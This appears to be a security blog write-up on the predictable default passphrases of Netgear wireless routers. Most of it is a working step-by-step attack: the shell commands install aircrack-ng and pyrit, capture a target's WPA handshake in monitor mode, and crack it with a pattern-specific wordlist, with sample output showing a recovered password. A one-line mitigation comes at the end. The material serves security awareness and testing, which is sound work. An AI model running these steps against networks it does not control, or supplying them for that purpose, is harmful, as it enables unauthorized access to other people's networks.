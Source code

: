 Netgear Wireless Router Default Passphrase Vulnerability

**OS:** Debian 8

A vulnerability exists in the default passphrase for Netgear Wireless Routers. The default passphrase consists of two words, followed by a three digit number (<http://support1.gearguy.com/useruploads/images/19915v3.PNG>):<br>
**word1word2xxx**

To exploit this vulnerability you will need “aircrack-ng”, “pyrit” and the wordlist containing all possible passphrases. Initially, i was going to generate the dictionary using /usr/share/dict/cracklib-small and “crunch”, but the Netgear dictionary is already available for download from ScriptKitty (<http://www.scriptkitty.ca/index.php/wordlists/>).
<br>
<br>
##Installation of Required Software
Manual step-by-step instructions @ blackMORE Ops (<http://www.blackmoreops.com/2014/03/13/install-nvidia-driver-kernel-module-cuda-and-pyrit-kali-linux/>)
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install aircrack-ng</b><br>
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install pyrit</b>
</div>
</code>
<br>
<br>
##Step 1 – Capturing the Handshake
Plug in your Alfa AWUS036H and capture the 4-way handshake.<br>
Tutorial @ SecurityTube - <http://www.securitytube.net/groups?operation=view&groupId=9>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>airmon-ng start wlan0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng mon0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng -c 1 -w netgear.cap --bssid 00:11:22:33:44:55 mon0</b><br>
</div>
</code>
<br>
<br>
##Step 2 – Cracking the Capture
Confirm you have useable handshakes, then clean up the capture file and crack the passphrase.<br>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap analyze</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap -o stripped-netgear.cap strip</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r stripped-netgear.cap -i adjective_noun_3d.txt -b 00:11:22:33:44:55 attack_passthrough</b><br>
<font color="silver">...</font><br>
<font color="silver">.Parsing file 'stripped-netgear.cap' (1/1)...</font><br>
<font color="silver">.Parsed 10 packets (10 802.11-packets), got 1 AP(s)</font><br>
<font color="silver">.Tried 12235614 PMKs so far; 25683 PMKs per second.</font><br>
<font color="silver">.The password is</font> <b>'magicalsquash835'</b><br>
</div>
</code>
<br>
<br>
##Solution
Never use the default passphrase provided with your router and always use complex passwords that do not follow predictable patterns.

Tags: wifi

